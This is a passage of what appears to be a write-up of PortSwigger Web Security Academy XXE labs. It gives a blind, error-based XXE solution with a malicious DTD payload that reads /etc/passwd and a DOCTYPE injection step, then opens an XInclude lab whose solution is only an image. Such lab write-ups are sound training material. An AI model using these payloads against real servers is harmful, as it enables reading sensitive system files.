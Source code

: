 ```
# Burpsuite solution

1. Click "Go to exploit server" and save the following malicious DTD file on your server:
    
    `<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> %eval; %exfil;`
    
    When imported, this page will read the contents of `/etc/passwd` into the `file` entity, and then try to use that entity in a file path.
    
2. Click "View exploit" and take a note of the URL for your malicious DTD.
3. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
4. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
    
    You should see an error message containing the contents of the `/etc/passwd` file.
```


## Exploiting XInclude to retrieve files

### Enunciation

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic [XXE](https://portswigger.net/web-security/xxe) attack.

To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.

### Solution


![xxe](../img/xxe_16.png)
